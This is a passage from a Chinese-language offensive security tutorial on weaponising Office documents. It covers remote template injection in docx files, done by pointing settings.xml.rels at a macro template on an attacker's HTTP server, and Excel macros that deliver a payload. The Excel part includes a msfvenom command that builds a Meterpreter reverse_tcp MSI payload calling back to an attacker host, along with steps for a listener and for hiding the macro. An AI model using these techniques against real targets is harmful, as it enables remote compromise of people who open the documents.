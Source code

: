 主体流程如下：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVAYibRYIzDicH4o7m1IcEibbsGbuYRn7dnoicd7hNR0qiazCY3riaicicJalDCtw/640?wx_fmt=png)

2.2 利用 docx 文档远程模板运行宏
---------------------

创建宏方式与 2.1 的一致，所得的 docm 模板复制到 http 服务器上：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVAOFpwZwahMibtML3VQyH1HDKS2SG0hcykjfUqV0pBlgOibwnVtxXqPjOA/640?wx_fmt=png)

开启 http 服务器：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVAXka29ZnShDA274Bn1JujNibPPd1cHpmxzzYc0z5Wg9eV3ZPiaaKAuaIw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVApiadrfibm7Hys8PrAoDiaIgNiaicYHJHtkhjCWFpdY388k6tdzsCGwefr2Q/640?wx_fmt=png)

新建文档加载相应的模板：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVA99nlfOp2UN59SIz8WtEe5WiaPGa9zTzxg7DcodY1uue0vwIEWN5I5fA/640?wx_fmt=png)

然后保存，并把 docx 后缀名修改为 zip:

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVAVlDl6NYm00cpBdibfaQF3y5Y0bqL43buXoOxjQEqeYnXicrggBmicnnoA/640?wx_fmt=png)

解压后找到 \word\_rels\settings.xml.rels 文件中的 target 标签，该标签目前表示加载本地的宏模板：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVAT6h2orhh6nQOKmmB4HAPPxsVAd3rCKic5xvMlc5nz0HtWgW1EoAyPzA/640?wx_fmt=png)

把 target 改为服务器上的 dotm 文件：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVAUA6lLK0GV44tuwf8P8zlslGVwuFdVG72CLCjRW9AicEdictXV1icQVkYQ/640?wx_fmt=png)

**2.3 excel 宏**
---------------

### **2.3.1 excel 宏操作手法**

制作 msi 文件：

msfvenom-p windows/meterpreter/reverse_tcp LHOST=<Your IP Address>LPORT=<Your Port to Connect On> -f msi -o 1.msi

建立监听：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVA3YF7f5Giaa3vRKBDsOJicMaFhxDnF9Z3Ybibwib9nSEy9KE7d2hyUVbBWA/640?wx_fmt=png)

新建 xlsx 文件，在 sheet 表格处，右击插入宏：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVA90u4eZ5PrdWAuynfup8JWnwQSrt6pd9GZ8qrDhgOFz8TsRhjsMibTIA/640?wx_fmt=png)

宏内容，这里可以隐藏宏内容：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVAnqiaGkzapQxvM1tk1HvIJ8sPgbR2FJUZXmYKZ0rFW51YtTL6VTcBU8A/640?wx_fmt=png)
